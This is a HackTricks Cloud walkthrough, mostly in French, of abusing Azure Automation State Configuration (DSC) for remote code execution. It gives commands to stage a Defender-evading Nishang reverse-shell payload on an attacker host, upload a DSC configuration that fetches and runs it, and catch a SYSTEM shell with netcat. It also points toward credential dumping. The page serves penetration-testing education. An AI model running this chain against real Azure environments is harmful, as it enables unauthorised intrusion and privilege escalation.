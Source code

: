# Az - State Configuration RCE

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Check the complete post in:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Résumé de la préparation de l'infrastructure de serveur distant (C2) et des étapes

#### Vue d'ensemble

Le processus implique la mise en place d'une infrastructure de serveur distant pour héberger un payload modifié de Nishang `Invoke-PowerShellTcp.ps1`, nommé `RevPS.ps1`, conçu pour contourner Windows Defender. Le payload est servi depuis une machine Kali Linux avec l'IP `40.84.7.74` en utilisant un simple serveur HTTP Python. L'opération est exécutée à travers plusieurs étapes :

#### Étape 1 — Créer des fichiers

* **Fichiers requis :** Deux scripts PowerShell sont nécessaires :
1. `reverse_shell_config.ps1` : Un fichier de Configuration d'État Désirée (DSC) qui récupère et exécute le payload. Il est disponible sur [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1).
2. `push_reverse_shell_config.ps1` : Un script pour publier la configuration sur la VM, disponible sur [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).
* **Personnalisation :** Les variables et paramètres dans ces fichiers doivent être adaptés à l'environnement spécifique de l'utilisateur, y compris les noms de ressources, les chemins de fichiers et les identifiants de serveur/payload.

#### Étape 2 — Compresser le fichier de configuration

* Le `reverse_shell_config.ps1` est compressé dans un fichier `.zip`, le rendant prêt pour le transfert vers le compte de stockage Azure.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Étape 3 — Définir le contexte de stockage et télécharger

* Le fichier de configuration compressé est téléchargé dans un conteneur de stockage Azure prédéfini, azure-pentest, en utilisant la cmdlet Set-AzStorageBlobContent d'Azure.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Étape 4 — Préparer la boîte Kali

* Le serveur Kali télécharge le payload RevPS.ps1 depuis un dépôt GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* Le script est modifié pour spécifier la VM Windows cible et le port pour le reverse shell.

#### Étape 5 — Publier le fichier de configuration

* Le fichier de configuration est exécuté, ce qui entraîne le déploiement du script de reverse shell à l'emplacement spécifié sur la VM Windows.

#### Étape 6 — Héberger la charge utile et configurer l'écouteur

* Un Python SimpleHTTPServer est démarré pour héberger la charge utile, avec un écouteur Netcat pour capturer les connexions entrantes.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* La tâche planifiée exécute le payload, atteignant des privilèges de niveau SYSTEM.

#### Conclusion

L'exécution réussie de ce processus ouvre de nombreuses possibilités pour d'autres actions, telles que le dumping de credentials ou l'expansion de l'attaque à plusieurs VMs. Le guide encourage l'apprentissage continu et la créativité dans le domaine d'Azure Automation DSC.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
